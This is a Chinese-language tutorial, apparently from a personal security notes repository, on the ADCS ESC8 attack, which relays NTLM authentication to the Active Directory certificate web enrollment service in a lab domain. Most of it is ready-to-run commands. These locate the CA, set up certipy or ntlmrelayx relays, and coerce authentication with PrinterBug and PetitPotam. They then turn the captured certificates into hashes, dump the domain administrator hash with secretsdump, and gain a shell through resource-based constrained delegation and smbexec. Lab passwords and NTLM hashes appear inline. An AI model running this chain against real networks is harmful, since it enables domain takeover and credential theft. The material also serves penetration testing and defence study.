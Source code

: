 # ESC8：NTLM Relay 中继到 Web 证书注册服务

因为Web证书注册服务默认使用NTLM协议进行身份认证，所以可以中继到访问Web证书注册服务的HTTP协议，然后就能利用目标用户的身份获得到此用户的身份验证证书。拿到此用户证书后，就拿到了此用户的凭据。

NTLM Relay的常见攻击场景：

- 攻击域控：域控机器账户有 DCSync 权限，可以到处域内任意用户 hash。
- 攻击 Exchange 服务器：这个服务器的机器账户能用于远程连接登录，也可以配置 DCsync 权限。
- 攻击域内普通机器：域内普通机器账号可以结合基于资源的约束性委派，获得管理员权限。

### 漏洞利用（攻击域控）

1. 定位adcs证书服务器

```
在域内的话，可以执行如下命令定位证书服务器。
certutil -config - -ping
#或者下面的命令，不弹框定位
certutil -dump -v

在域外的话，可以利用 certipy 工具执行如下命令定位证书服务器。
certipy find -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -debug
```

​	2. 攻击者监听

```
第一种：
certipy relay -target http://192.168.72.21/certsrv/certfnsh.asp -template 'DomainController' -ca HACK-DC01-CA

第二种：
python ntlmrelayx.py -t http://192.168.72.21/certsrv/certfnsh.asp -smb2support --adcs --template 'domain controller'
```

​	3. 打印机漏洞或 PetitPotam 漏洞触发目标（域控）NTLM 身份验证回连到攻击者监听端口

```
#使用打印机漏洞触发
python printerbug.py HACK/deandean:p-0p-0p-0@192.168.72.22 192.168.72.162

#使用 Petitpotam 触发
python Petitpotam.py -d HACK.com -u deandean -p p-0p-0p-0 192.168.72.162 192.168.72.22

#触发后，第二步的监听脚本自动中继到 Web 证书注册服务申请证书
```

![image-20250214164428312](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214164428312.png)

4. 使用脚本获得的证书访问域控

```
#然后对获得的证书进行认证，得到域控 WIN-GI7DV30V4DO 的 hash
certipy auth -pfx WIN-GI7DV30V4DO$.pfx -dc-ip 192.168.72.21

# 如果是ntlmrelayx.py脚本监听的话，他会打印出base64 格式的证书，我们需要进行如下操作把它转为文件格式：
# 将打印出的证书保存为 certificate.txt，然后执行如下命令
cat certificate.txt | base64 -d > certificate.pfx

# 认证获得域控 DC01 的机器账号 hash
certipy auth -pfx certificate.pfx -dc-ip 192.168.72.21

# 使用域控 DC01 的凭据导出域内任意用户 hash
python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:be75cf8695b6680ef74d954f89afc2d8 HACK/WIN-GI7DV30V4DO$@192.168.72.21 -just-dc-user HACK/administrator -target-ip 192.168.72.21
```

![image-20250214164822290](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214164822290.png)

![image-20250214165034890](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214165034890.png)

### 漏洞利用（攻击域内普通机器账户）

攻击域主机：192.168.72.24

1. 定位adcs证书服务器

```
在域内的话，可以执行如下命令定位证书服务器。
certutil -config - -ping
#或者下面的命令，不弹框定位
certutil -dump -v

在域外的话，可以利用 certipy 工具执行如下命令定位证书服务器。
certipy find -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -debug
```

​	2. 攻击者监听

```
python ntlmrelayx.py -t http://192.168.72.21/certsrv/certfnsh.asp -smb2support --adcs --template 'Machine'
```

​	3. 打印机漏洞或 PetitPotam 漏洞触发目标（普通机器）NTLM 身份验证回连到攻击者监听端口

```
#使用打印机漏洞触发
python printerbug.py HACK/deandean:p-0p-0p-0@192.168.72.24 192.168.72.162

#使用 Petitpotam 触发
python Petitpotam.py -d HACK.com -u deandean -p p-0p-0p-0 192.168.72.162 192.168.72.24
```

![image-20250214172236879](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214172236879.png)

4. 使用脚本获得的证书访问目标机器

```
# 对获得的证书进行认证，得到目标机器账户的 hash
certipy auth -pfx comp1$.pfx -dc-ip 192.168.72.21
```

![image-20250214172451124](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214172451124.png)

5. 给机器自身配置基于资源的约束性委派

```
python ./rbcd.py -f comp1 -t comp1 -dc-ip 192.168.72.21 HACKER\\comp1$ -hashes aad3b435b51404eeaad3b435b51404ee:714dec7d5972ba9db40bd77419f4de9f
```

![image-20250214184007728](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214184007728.png)

6. 基于资源约束性委派攻击

```
#以 administrator 的身份申请一张访问 cifs/comp1$.HACK.com 服务的票据
python3 getST.py -dc-ip 192.168.72.21 HACK.com/comp1$ -hashes aad3b435b51404eeaad3b435b51404ee:714dec7d5972ba9db40bd77419f4de9f -spn cifs/comp1.HACK.com -impersonate administrator

#导入票据，记得设置好 dns，确保解析 comp1.HACK.com 到正确 ip
export KRB5CCNAME=administrator@cifs_comp1.HACK.com@HACK.COM.ccache

python3 smbexec.py -no-pass -k comp1.HACK.com
```

![image-20250214184552550](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250214184552550.png)
